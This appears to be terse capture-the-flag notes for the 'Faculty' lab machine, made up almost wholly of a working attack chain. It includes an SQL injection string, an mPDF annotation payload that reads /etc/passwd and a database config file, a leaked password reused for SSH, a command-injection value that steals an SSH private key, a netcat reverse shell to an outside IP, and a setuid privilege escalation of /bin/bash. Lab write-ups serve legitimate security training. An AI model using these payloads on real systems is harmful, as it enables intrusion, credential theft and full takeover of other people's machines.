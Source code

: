 ```sql
1' or 1 = '1
```

https://github.com/mpdf/mpdf/issues/356

```
The PDF is dark and full of attachments  
 <annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

file:///usr/share/webapps/cyberchef/index.html#recipe=URL_Encode(true)To_Base64('A-Za-z0-9%2B/%3D')&input=VGhlIFBERiBpcyBkYXJrIGFuZCBmdWxsIG9mIGF0dGFjaG1lbnRzICAKIDxhbm5vdGF0aW9uIGZpbGU9Ii9ldGMvcGFzc3dkIiBjb250ZW50PSIvZXRjL3Bhc3N3ZCIgIGljb249IkdyYXBoIiB0aXRsZT0iQXR0YWNoZWQgRmlsZTogL2V0Yy9wYXNzd2QiIHBvcy14PSIxOTUiIC8%2B

```
root:x:0:0:root:/root:/bin/bash  
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash  
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

```
The PDF is dark and full of attachments  
 <annotation file="/var/www/scheduling/admin/db_connect.php" content="id_rsa"  icon="Graph" title="Attached File:id_rsa" pos-x="195" />
```

```
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

```
ssh gbyolo@faculty.htb
Co.met06aci.dly53ro.per
```

```
/var/mail/gbyolo
```

```
sudo -u developer meta-git clone 'asd | cat ~/.ssh/id_rsa'
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 4444 >/tmp/f
python3 -m pwncat -lp 4444 -m linux
```

```
ps aux | grep "root" | grep python
```

```
call (void)system("chmod u+s /bin/bash")
```